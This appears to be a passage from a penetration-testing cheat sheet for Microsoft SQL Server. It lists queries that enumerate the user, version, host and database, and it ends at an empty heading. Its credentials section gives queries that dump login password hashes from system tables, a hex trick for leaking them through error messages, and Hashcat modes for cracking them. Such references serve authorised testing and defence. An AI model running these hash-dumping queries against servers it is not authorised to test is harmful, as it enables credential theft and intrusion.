 
## MSSQL User

```sql
SELECT CURRENT_USER
SELECT user_name();
SELECT system_user;
SELECT user;
```

## MSSQL Version

```sql
SELECT @@version
```

## MSSQL Hostname

```sql
SELECT HOST_NAME()
SELECT @@hostname
SELECT @@SERVERNAME
SELECT SERVERPROPERTY('productversion')
SELECT SERVERPROPERTY('productlevel')
SELECT SERVERPROPERTY('edition');
```

## MSSQL Database name

```sql
SELECT DB_NAME()
```


## MSSQL Database Credentials

* **MSSQL 2000**: Hashcat mode 131: `0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578`
    ```sql
    SELECT name, password FROM master..sysxlogins
    SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
    -- Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer
    ```
* **MSSQL 2005**: Hashcat mode 132: `0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe`
    ```sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    ```


## MSSQL List databases
